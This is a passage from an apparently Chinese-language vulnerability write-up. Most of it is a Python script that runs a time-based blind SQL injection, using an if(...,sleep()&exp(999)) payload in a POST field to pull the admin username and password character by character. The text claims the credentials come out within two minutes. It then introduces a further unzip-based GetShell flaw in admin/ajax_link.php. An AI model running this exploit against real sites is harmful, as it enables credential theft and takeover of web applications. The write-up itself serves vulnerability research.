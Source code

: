 ```plain
            break
        if length > 9999:
            print("[-] No Vuln")
            exit(-1)
    print(f"[+] Success, Secret Length: {length}")
    user_and_pwd = ""
    secret_payload = "ord(substring(({origin_payload}), {start}, 1))"
    for index in range(1, length + 1):
        for char in fuzz_string:
            _secret_payload = secret_payload.format(origin_payload=origin_payload, start=index)
            final_secret_payload = f"0'>if({_secret_payload}={ord(char)},sleep({timeout})&exp(999),exp(999))>'"
            # print(f"[*] Tring Secret Char: {char}")
            r2 = post(target, cookie, authcode, final_secret_payload)
            if r2.elapsed.total_seconds() > timeout-1:
                user_and_pwd += char
                break
            if fuzz_string.find(char) == (len(fuzz_string) - 1):
                print("[-] Error, Fuzz string is not in correct strings!!!")
                exit(-1)
        print(f"[+] Secret: {user_and_pwd}")
    return user_and_pwd
```

网络情况好的话，可以在两分钟内拿到后台的账号和密码

[![](assets/1701606448-a1bfbfe2c9c6887f1843534647c85b21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127135414-6540710a-8ce9-1.png)

## 解压无文件 GetShell

  浏览后台目录的文件时，有一个解压 zip 的操作成功吸引我的注意，漏洞文件位于：`admin/ajax_link.php`
